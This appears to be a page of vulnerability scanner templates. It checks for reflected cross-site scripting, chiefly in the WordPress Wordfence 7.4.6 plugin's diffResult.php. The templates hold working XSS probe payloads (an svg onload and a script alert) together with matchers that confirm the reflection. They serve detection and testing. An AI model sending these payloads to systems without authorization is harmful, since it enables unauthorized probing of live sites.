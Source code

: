 **Type - word**

- part - body
- words
  1. Got: \<script>alert(document.domain)\</script>\<br>

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# WordPress Wordfence 7.4.6 - Cross0Site Scripting

## Description

- WordPress Wordfence 7.4.6 is vulnerable to cross-site scripting.
- severity - medium
- tags - wordpress,wp-plugin,xss,wordfence

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/wordfence/lib/diffResult.php?file=%27%3E%22%3Csvg%2Fonload=confirm%28%27test%27%29%3E

### Matchers

**Type - word**

- words
  1. '>"\<svg/onload=confirm('test')>
- part - body

**Type - word**

- words
  1. text/html
- part - header

**Type - status**

- status
  1. 200

---